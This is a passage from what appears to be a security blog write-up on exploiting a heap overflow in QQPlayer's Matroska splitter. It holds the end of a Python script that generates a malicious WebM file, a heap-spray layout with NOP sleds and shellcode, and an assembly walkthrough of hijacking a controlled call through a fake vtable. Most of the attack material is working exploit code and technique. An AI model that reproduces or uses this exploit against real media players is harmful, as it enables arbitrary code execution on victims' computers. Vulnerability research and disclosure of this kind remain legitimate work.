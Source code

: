 ```python
        elif size < 0x3FFF:
            return struct.pack('>H', 0x4000 | size)
        elif size < 0x1FFFFF:
            return struct.pack('>I', 0x200000 | size)[1:]
        else:
            return struct.pack('>Q', 0x1000000000000000 | size)

# Generate exploit file
exploit = MatroskaExploit()
malicious_webm = exploit.generate_malicious_webm()

with open("malicious.webm", "wb") as f:
    f.write(malicious_webm)

print("[+] Malicious WebM file created: malicious.webm")
print(f"[+] File size: {len(malicious_webm)} bytes")
```

### Heap Layout Strategy

The exploitation technique leverages **Matroska's multi-track structure** for precise heap manipulation:

```
Heap Layout Strategy:
┌─────────────────┐
│   Heap Spray    │ ← Multiple small tracks with controlled data
│   (Tracks 1-50) │   (0x1000 bytes each, total ~80KB)
├─────────────────┤
│   Landing Zone  │ ← NOP sleds for reliable execution
│   (NOP + Shell) │   (Multiple copies across spray)
├─────────────────┤
│  Overflow Track │ ← Large track triggering overflow
│   (Track 999)   │   (0x10000 bytes, controlled data)
└─────────────────┘
```

![QQPlayer heap spray visualization](/assets/blog/images/QQ_3.png)
*Heap spray implementation using Matroska multi-track abuse for controlled memory layout*

### Controlled Call Exploitation

The vulnerability provides **controlled call [r32]** instructions:

```assembly
; Vulnerable call pattern in matroskasplitter.ax
mov eax, [heap_ptr]     ; eax = attacker-controlled pointer
call [eax+0x14]         ; Call controlled function pointer

; Exploitation strategy:
; 1. Spray heap with fake vtables
; 2. Corrupt heap metadata to point to fake vtable
; 3. Trigger call instruction
; 4. Execute shellcode via fake vtable entry
```
